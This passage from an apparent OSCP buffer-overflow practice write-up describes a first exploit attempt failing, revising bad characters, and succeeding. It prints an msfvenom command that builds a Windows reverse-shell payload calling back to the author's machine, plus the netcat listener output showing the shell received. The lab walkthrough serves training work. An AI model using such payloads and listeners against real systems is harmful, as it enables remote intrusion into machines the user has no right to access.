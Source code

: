 And now we start all over again, closing out of everything and re-prepping the environment to run the exploit. The one major difference, is we need to start a listener on our machine in our to pick-up the reverse shell (be sure to use the same port you used in the msfvenom command).

{: .warning }
First Attempt Failed

Our first run of the exploit failed. Where did we go wrong?  
In reading through the exercise description, we see this line:
> Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

Assuming this is the problem, I revisit my bad characters and will consider additional NOPs later. I remove every second bad character in sequence (e.g. \x07\x08 are together, I remove x08). My new MSFVenom command reads as follows:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.13.192 LPORT=443 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
I did also have to go back up to "Finding a Jump Point" to adjust my bad characters there, also updating the 'retn' variable in my exploit.  

I update the exploit.py to include the new payload variable, leaving everything else the same, and walk through the process once more. This time, I do receive a shell on the other end:
```
nc -nvlp 443
listening on [any] 443 ...
connect to [10.13.13.192] from (UNKNOWN) [10.10.180.173] 49341
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami
whoami
oscp-bof-prep\admin
```

Looks like there's a few more practice examples. I'm sure there will be unique quirks to each, so we'll continue on and walk through those as well.

